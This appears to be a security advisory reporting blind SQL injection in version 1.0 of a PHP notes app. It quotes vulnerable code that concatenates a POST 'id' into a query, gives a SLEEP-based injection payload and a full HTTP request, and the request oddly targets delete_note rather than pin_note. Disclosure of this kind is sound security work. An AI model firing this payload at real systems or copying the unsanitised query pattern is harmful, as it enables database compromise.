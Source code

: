 ## Vulnerability Details

**Credits**: 
> Reigz Macolor (https://github.com/reigz/)<br/>

**Tested On**:
> [Notes App using PHP (OOP), jQuery, and Bootstrap 1.0](https://www.sourcecodester.com/php/16055/notes-app-using-php-oop-jquery-and-bootstrap-free-source-code.html) <br/>

**Affected Version**:
> Notes App using PHP (OOP), jQuery, and Bootstrap 1.0

**Affected Site Page**: 
> /ajax-api.php?action=pin_note<br/>

**Affected Code**: 
> </ajax-api.php [CLASS pin_note()]> <br/>

```php
function pin_note(){
        extract($_POST);
        $is_pinned = $pinned == 1 ? 0: 1;
        $sql = "UPDATE `notes` set `pinned` = '{$is_pinned}' where `id` = '{$id}'";
        $update  = $this->conn->query($sql);
        if($update){
            $resp['status'] = "success";
            if($is_pinned == 0){
                $_SESSION['message']['success'] = "Note has been unpinned.";
            }else{
                $_SESSION['message']['success'] = "Note has been pinned to top.";
            }
        }else{
            $resp['status'] = "error";
        }
        return json_encode($resp);
    }
```

**Related CWE:**
> [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Details:**
> Allows SQL Injection by placing untrusted code executing a query on the backend, triggering backend functions such as `sleep`.

Execute sleep query using payload `1337'+or+1=(SELECT+SLEEP(5))--+` via the `id` parameter.

```http 
POST /php-notes/ajax-api.php?action=delete_note HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 18

id=1337'+or+1=(SELECT+SLEEP(5))--+or+1=1--+&pin_note=0
```

> See resoponse matches the sleep time (n+1 min), triggering a blind SQL Injection.

![image](https://github.com/smurf-reigz/security/assets/48426940/a1da22d3-e3f0-4aeb-8482-eea1a86cc0be)

## **Vulnerability Impact:**
> As an attacker, can do the following:
> 1. Run any database query and have same permission as the web application (default for this Web Application is root).
